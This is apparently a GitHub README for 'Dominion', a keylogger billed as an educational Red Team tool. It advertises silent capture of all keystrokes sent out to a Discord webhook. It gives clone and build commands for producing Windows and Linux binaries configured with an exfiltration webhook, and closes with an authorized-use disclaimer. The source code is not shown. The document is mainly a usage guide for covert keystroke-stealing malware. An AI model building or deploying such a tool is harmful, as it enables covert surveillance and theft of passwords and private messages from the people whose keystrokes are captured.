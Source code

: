 # Dominion

![Dominion Banner](assets/dominion_banner.png)

Dominion is a cross-platform educational keylogger for Red Teams and ethical hacking research.  
It captures keystrokes and sends logs to a private Discord channel using webhooks.

---

## Features

- Logs all keystrokes silently.
- Sends logs to a private Discord webhook.
- Supports Windows EXE (Wine) and Linux binary.
- Simple automated builder (`setup.py`).

---

## Quick Start

Clone this repository:

```bash
git clone https://github.com/HackScaleTeam/Dominion.git
cd Dominion
```

Run the setup script:

**For Windows EXE (via Wine):**
```bash
python3 setup.py --webhook YOUR_DISCORD_WEBHOOK --interval YOUR_TIME --windows
```

**For Linux binary:**
```bash
python3 setup.py --webhook YOUR_DISCORD_WEBHOOK --interval YOUR_TIME --linux
```

The setup script will:
- Check your environment (Wine/Python)
- Install missing dependencies
- Build the binary to `/dist/`

**Example:**
```bash
python3 setup.py --webhook https://discord.com/api/webhooks/XXXXX/YYYYY --interval YOUR_TIME --windows
```

---

## License

MIT License — see [LICENSE](LICENSE).

---

## Disclaimer

Dominion is for **educational and authorized testing only**.  
Use it only on machines you own or have permission to test.
